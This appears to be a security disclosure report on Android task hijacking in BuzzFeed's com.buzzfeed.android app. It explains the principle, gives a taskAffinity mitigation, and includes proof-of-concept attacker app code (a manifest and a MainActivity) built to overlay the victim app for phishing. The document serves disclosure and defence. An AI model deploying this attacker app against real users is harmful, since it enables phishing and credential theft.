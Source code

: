 # Android Manifest Misconfiguration Leading to Task Hijacking in RICEPO by BuzzFeed(com.buzzfeed.android) 

## Description

Task Hijacking allows malicious apps to inherit permissions of vulnerable apps and is usually used for phishing login credentials of victims,its used by malicious actors to manipulate or take over tasks in Android, leading to significant vulnerabilities, This vulnerability applies to all Android versions before Android 11. The AndroidManifest.xml configuration needs to be modified to mitigate this attack.

## Steps To Reproduce:

1. The user downloads a malicious app
2. The user uses the malicious apps
3. The user uses the victim app. The activity seen at this time is not the original activity of the app, but the phishing activity of the malicious app
4. The user thinks that he is using the victim app (actually a malicious app) to enter personal information, resulting in account information leakage or inducing the user to grant the malicious app corresponding permissions.

## Video Proof of Concept

![caller.id.phone.number.block](./video/com.buzzfeed.android.gif)

It can be seen that after executing the malicious program, the task is successfully hijacked, and the malicious application is actually opened when the victim application is launched.

## Principle

Because the taskAffinity attribute of most applications is not set and defaults to its package name, we can set a taskAffinity value that is consistent with the package name of the application we are attacking in a hackactivity attribute of the malware. Then, when the hackactivity starts, it will create a task stack that is the same as the taskAffinity attribute of the victim application. At that time, it will share a task stack with the victim's application and be located at the root of the task stack. When we start the victim application, the victim's task will be brought to the foreground, and then the hackactivity at the root will be brought to the foreground. Then, when we open the victim application, the activity we see is not the original activity of the application, but our hackactivity. Then we can design a phishing page in the hackactivity to implement a phishing attack, obtain the user's privacy and induce the user to grant the malware corresponding permissions.





## Mitigation

To prevent this attack you will need to set taskAffinity property of the application activities to taskAffinity= "" in the <activity> tag of the AndroidManifest.xml to force the activities to use a randomly generated task affinity, or set it at the <application> tag to enforce on all activities in the application.

## Attacker App Code

### Android Manifest

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.strandhogg.v1"
    tools:ignore="ExtraText">
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/AppTheme"
        android:taskAffinity="com.buzzfeed.android">
        <activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

### Main Activity

```java
import android.os.Bundle
import android.content.Intent;
import androidx.appcompat.app.AppCompatActivity


class MainActivity : AppCompatActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        moveTaskToBack(true);
    }
    override fun onResume() {
        super.onResume()
        setContentView(R.layout.activity_main)
    }
}
```

### Impact

Due to a misconfiguration in the Android manifest file, it was possible to a perform a task hijacking attack. An attacker could create a malicious mobile application which could hijack a legitimate app and steal any potential sensitive information when installed on the victim's device.



## References

- https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06